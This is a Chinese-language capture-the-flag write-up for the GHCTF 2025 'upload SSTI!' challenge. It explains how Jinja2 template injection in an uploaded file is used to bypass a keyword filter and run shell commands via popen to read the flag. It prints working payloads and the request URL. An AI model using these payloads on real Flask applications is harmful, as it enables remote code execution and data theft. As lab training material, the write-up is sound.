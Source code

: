 ## 基本信息

- 题目名称：GHCTF 2025-upload SSTI!
- 题目链接：https://www.nssctf.cn/problem/6529
- 考点清单：SSTI、WAF绕过、flask
- 工具清单：Yakit
- payloads：WAF绕过


### 解题思路

看起来是一个文件上传，但是题目已经说明了这道题的考点，随便上传一个文件，可以看到上传的路径

![](images/GHCTF%202025-upload%20SSTI!-filepath.png)

在附件给的源码中也可以看到一些关于SSTI的过滤关键词

![](images/GHCTF%202025-upload%20SSTI!-code.png)

写一个`{{7*7}}`，观察注入结果

![](images/GHCTF%202025-upload%20SSTI!-test.png)

成功验证SSTI的存在

### 过程和结果记录

这题的重点在于如何绕过waf，关键词过滤了`'_', 'os', 'subclasses', '__builtins__', '__globals__','flag'`

有一篇博客总结的很好：[SSTI进阶 | 沉铝汤的破站](https://chenlvtang.top/2021/03/31/SSTI%E8%BF%9B%E9%98%B6/)

这里我们可以使用`request`传递被拦截的关键词：
```
{{""[request.args.class][request.args.mro][1][request.args.subclass]()[137][request.args.init][request.args.globals]['popen']('ls /').read()}}
```

访问URL，使用get传递参数：
```
http://node1.anna.nssctf.cn:28415/file/test.txt?class=__class__&mro=__mro__&subclass=__subclasses__&init=__init__&globals=__globals__
```

可以看到根目录的文件列表

![](images/GHCTF%202025-upload%20SSTI!-ls.png)

对于关键词`flag`的绕过有很多方法，比如使用`*`模糊匹配或者反斜杠`\`

构造如下的payload查看flag：
```
{{""[request.args.class][request.args.mro][1][request.args.subclass]()[137][request.args.init][request.args.globals]['popen']('cat /fla\g').read()}}
```

![](images/GHCTF%202025-upload%20SSTI!-flag.png)

### 总结

- 大部分SSTI题目的关键在于找到合适的类和绕过waf的方法，需要总结关于绕过waf的各种方法，包括但不限于函数关键字、特殊字符`{{`、`[`、`_`等，可以通过靶场SSTI-labs进行练习。